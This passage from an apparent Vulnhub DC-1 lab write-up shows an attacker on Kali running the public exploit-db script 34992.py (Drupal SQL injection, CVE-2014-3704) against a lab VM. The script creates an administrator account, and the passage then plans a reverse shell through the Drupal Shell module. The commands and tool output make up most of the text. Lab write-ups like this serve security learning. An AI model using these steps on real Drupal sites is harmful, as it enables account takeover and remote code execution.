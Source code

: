 ```
meterpreter > pwd
/var/www
```
Okay well that's neat, but let's try to learn something. Back to the searchsploit output, let's add an admin user.
```
root@kali:~/Security/Vulnhub/DC-Series/1# cp /usr/share/exploitdb/exploits/php/webapps/34992.py ./34992.py
root@kali:~/Security/Vulnhub/DC-Series/1# python 34992.py 
...
Usage: 34992.py -t http[s]://TARGET_URL -u USER -p PASS
...
root@kali:~/Security/Vulnhub/DC-Series/1# python 34992.py -t http://10.10.10.5 -u me -p pass

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww


[!] VULNERABLE!

[!] Administrator user created!

[*] Login: me
[*] Pass: pass
[*] Url: http://10.10.10.5/?q=node&destination=node
```
Neat. As admin, we can install the Drupal [Shell](drupal.org/project/shell) module and open a reverse shell.
